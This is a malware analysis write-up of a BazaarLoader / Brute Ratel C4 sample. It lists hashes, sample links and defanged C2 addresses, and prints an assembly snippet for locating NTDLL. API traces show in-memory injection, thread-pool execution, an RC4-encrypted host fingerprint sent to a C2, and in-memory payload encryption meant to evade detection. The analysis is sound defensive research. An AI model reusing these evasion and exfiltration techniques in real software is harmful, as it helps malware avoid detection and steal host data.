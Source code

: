Dropper SHA256 : 1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
BazaarLoader SHA256 : 5C7A3BD2BAA8303354D8098B8D5961F111E467002BB0C6FEE120825B32798228  

Dropper Source :  
https://virusshare.com/file?1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
https://contagiodump.blogspot.com/2024/11/2024-10-30-lunar-spiders-latrodectus-js.html  

Payload Source :  
https://virusshare.com/file?5c7a3bd2baa8303354d8098b8d5961f111e467002bb0c6fee120825b32798228  


VT Dropper : https://www.virustotal.com/gui/file/1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
VT BazaarLoader : https://www.virustotal.com/gui/file/5c7a3bd2baa8303354d8098b8d5961f111e467002bb0c6fee120825b32798228  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://greshunka[.]com/bazar.php:8041 

Report :  
https://blog.eclecticiq.com/inside-intelligence-center-lunar-spider-enabling-ransomware-attacks-on-financial-sector-with-brute-ratel-c4-and-latrodectus

Analyzed sample is a 64bit malware named by various security engines BazaarLoader or BruteRatel C4.

Runtime analysis results are shared in logs.txt which contains an execution trace until the sample tries to reach a C2.

---

*** Commentary *** 

Analyzed sample contains many protection against runtime analysis / detection :

---

NTDLL Base Address :

The sample use the fact that PEB->LDR is located whithin NTDLL image to locate its base address : 

```asm
                       mov   	rax,qword ptr gs:[60h]  	; rax = PEB
                       mov     	rax,qword ptr [rax+18h] 	; rax+18h = PEB->LDR
                       jmp     	__start
                       nop
__findheaderloop: 
                       sub     	rax,1
__start: 
                       cmp     	word ptr [rax],5A4Dh 		; 'MZ' Magic
                       jne     	__findheaderloop
                       movsxd  	rdx,dword ptr [rax+3Ch]
                       lea     	rcx,[rdx-40h]
                       cmp     	rcx,3BFh
                       ja      	__findheaderloop
                       cmp     	dword ptr [rax+rdx],4550h	; 'PE' Magic
                       jne     	__findheaderloop
                       ret
```

memory layout:

```
            Address  	  Symbol							
            7fff883dc000  Limit NTDLL			(NTDLL Base + Size)
            7fff88360320  _PEB_LDR_DATA                 (PEB->Ldr)
            7fff88230000  C:\Windows\SYSTEM32\ntdll.dll (NTDLL Base Address)
            ...
            7ff7409a3000  PEB
            ...
            00876d490000  C:\Windows\system32\rundll32.exe
```

`sub     rax,1` : Here the developper was a bit lazy and used a 1 byte decrement instead on aligning on PAGE_SIZE and decrementing 0x1000 bytes at a time.

---

In memory execution :

```python
Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <VirtualAllocEx> in [KERNEL32.DLL] 
Parameter : HANDLE hProcess     : 0xffffffff
Parameter : LPVOID lpAddress    : 0x0
Parameter : SIZE_T dwSize       : 0x3dbbf
Parameter : DWORD  flProtect    : 0x40 (PAGE_EXECUTE_READWRITE)
Return  @ : 0x2e4d113c9

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [RES]  <VirtualAllocEx>
Result    : LPVOID  0x000000FA94200000

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <WriteProcessMemory> in [KERNEL32.DLL] 
Parameter : HANDLE  hProcess      : 0xffffffff
Parameter : LPVOID  lpBaseAddress : 0x000000FA94200000
Parameter : LPCVOID lpBuffer      : 0x00000002E4D13010
Parameter : SIZE_T  nSize         : 0x3dbbf
Return  @ : 0x2e4d113fe

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <CreateRemoteThread> in [KERNEL32.DLL] 
Parameter : HANDLE                 hProcess           : 0xffffffff
Parameter : LPSECURITY_ATTRIBUTES  lpThreadAttributes : 0x0
Parameter : SIZE_T                 dwStackSize        : 0x0
Parameter : LPTHREAD_START_ROUTINE lpStartAddress     : 0x00000002E4D11370 // jmp rcx
Parameter : LPVOID                 lpParameter        : 0x000000FA94200000 // Allocated memory
Parameter : DWORD                  dwCreationFlags    : 0x0
Parameter : LPDWORD                lpThreadId         : 0x0
Return  @ : 0x2e4d11434
```

A little trick regarding this CreateRemoteThread call, the thread StartAddress do not point directly to the PAGE_EXECUTE_READWRITE allocated memory. Instead, lpStartAddress points to an `jmp rcx` instruction, rcx beeing the lpParameter from the created thread.  

--- 

Thread Pool Worker Threads :

```html
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpAllocWork> in [ntdll.dll] 
Parameter : PTP_WORK             *WorkReturn     : 0x000000FA9437E610
Parameter : PTP_WORK_CALLBACK    Callback        : 0x000000FA942C3250
Parameter : PVOID                Context         : 0x000000FA9437E618
Parameter : PTP_CALLBACK_ENVIRON CallbackEnviron : 0x0
Return  @ : 0xfa942d78a7

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpPostWork> in [ntdll.dll] 
Parameter : PTP_WORK    Work : 0x000000FA92382D80
Return  @ : 0xfa942d78b2

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpReleaseWork> in [ntdll.dll] 
Parameter : PTP_WORK    Work : 0x000000FA92382D80
Return  @ : 0xfa942d78bd

Thread created by monitored process : Now monitoring [pid 0x9d8][tid 0xb2c] // ThreadPool Worker Thread

Monitoring: [pid 0x9d8][tid 0xb2c] c:\windows\system32\rundll32.exe 
Monitoring: [API] <LoadLibraryExA> in [KERNEL32.DLL] 
Parameter : LPCTSTR lpFileName : 0x000000FA9437E693 ("iphlpapi.dll")        // DLL loaded by the worker thread
Parameter : DWORD   dwFlags    : 0x0 (Same behavior as LoadLibrary)
Return  @ : 0x7ff9b52e53c7                                                  // return address in NTDLL
```

The sample relies on the ThreadPool worker thread feature to execute various sensitives actions.  
MSDN : https://learn.microsoft.com/en-us/windows/win32/procthread/thread-pool-api  
Some POC : https://github.com/mobdk/WinSpoof  

Interestingly, the creation of a ThreadPool Worker thread do not seem to trigger any notification to the PsSetCreateThreadNotifyRoutine kernel callback mechanism...

--- 

Undocumented encryption routine :

```python
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [RES]  <_vsnprintf>
Parameter : char_t   *buffer : 0x000000FA9234AB10
String    :          -> "{"cds":{"auth":"OV1T557KBIUECUM5"},"mtdt":{"h_name":"home","wver":"x64/6.3","ip":"10.0.2.15","arch":"x64", "bld":"9600","p_name":"QwA6AFwAVwBpAG4AZABvAHcAcwBcAHMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlAA==","uid":"user","pid":"2520","tid":"2820"}}"
Result    : int 261

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction032> in [CRYPTSP.DLL] 
Monitoring: [ i ] [ Undocumented RC4 implementation ]
Parameter : PBINARY_STRING buffer : 0x000000FA9437E580
Field     :                -> Length    = 0x105
Field     :                -> MaxLength = 0x105
Field     :                -> Buffer    = 0x000000FA9234AA00 
Parameter : PBINARY_STRING key    : 0x000000FA9437E570
Field     :                -> Length    = 0x10
Field     :                -> MaxLength = 0x10
Field     :                -> Buffer    = 0x000000FA9234CBC0 ("S47EFEUO3D2O6641")
Return  @ : 0xfa942c4c35

[...]

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <HttpSendRequestA> in [wininet.dll] 
Parameter : HINTERNET hRequest         : 0xcc000c
Parameter : LPCTSTR   lpszHeaders      : 0x0 (null)
Parameter : DWORD     dwHeadersLength  : 0x0
Parameter : LPVOID    lpOptional       : 0x000000FA923527B0
String    :           -> "88ea80d0a8145617084c1971a2e5f10dafc825dfa01aa9131c31eed2159e33380dff1f6c5b2b0f95bf9e3eccd60c1d280c96fa1f4acd82ac6739fad4"
String    :              "6dc3ae39d58a579d7cbdc8dd1c967704a3b004fc992ed35d75e2703445c5bb2b19fb645ca258fa35101d4f173c9b3c3b0f9c9cb98e06f588208a2ec5"
String    :              "e110eea0c0a030476ebcfb45f927108052af23591afb825078d85afa7137b4c160f29e08c276f2d7480b13b783b202c8cd7edaab47f5d3d68c20b176"
String    :              "64349c0ffaa7a1db232df74af01128bbbace85fa393e4986135462c5afbeb7869512bd7a573fb57ffccdf0df421aa0d128b895c68be4d67693dfc2bb"
String    :              "746254a1d74abbbe448de8cdb5ac4c87c33a42345d" // RC4 encrypted fingerprint
Parameter : DWORD     dwOptionalLength : 0x20a
Return  @ : 0xfa942c79dc
```

Here the sample is relying on the undocumented SystemFunction032 function from CRYPTSP.DLL to encrypt through RC4 the initial fingerprint of the compromised host (RC4 Key : "S47EFEUO3D2O6641").

--- 

Encrypted in memory payload :

```python
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction036> in [CRYPTBASE.DLL] 
Monitoring: [ i ] [ RtlGenRandom ]
Parameter : PVOID RandomBuffer       : 0x000000FA94A7FC54
Parameter : ULONG RandomBufferLength : 0x10                 // generate a random 16byte key
Return  @ : 0xfa942d85a6

[...]

Monitoring: [pid 0x9d8][tid 0xf8] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction032> in [CRYPTSP.DLL] 
Monitoring: [!] [Illegitimate call detected !]
Monitoring: [ i ] [ Undocumented RC4 implementation ]
Parameter : PBINARY_STRING buffer : 0x000000FA94A7FC68
Field     :                -> Length    = 0x4c000
Field     :                -> MaxLength = 0x4c000
Field     :                -> Buffer    = 0x000000FA942C0000 // memory allocated for the CreateRemoteThreadCall (see above)
Parameter : PBINARY_STRING key    : 0x000000FA94A7FC78
Field     :                -> Length    = 0x10
Field     :                -> MaxLength = 0x10
Field     :                -> Buffer    = 0x000000FA94A7FC54 ([0x3a,0xd,0x53,0xf4,0x17,0x47,0x50,0xe3,0x27,0x3d,0x4f,0x63,0x88,0xd,0xf4,0x50])
Return  @ : 0x7ff9b6342600
```

Here the malware ensure to be fully encrypted whenever possible, which prevents memory dumps as well as in memory signatures.
The key is changed  after each payload execution.
Setting a BreakPoint on this function call enable to dump the unencrypted payload from memory.
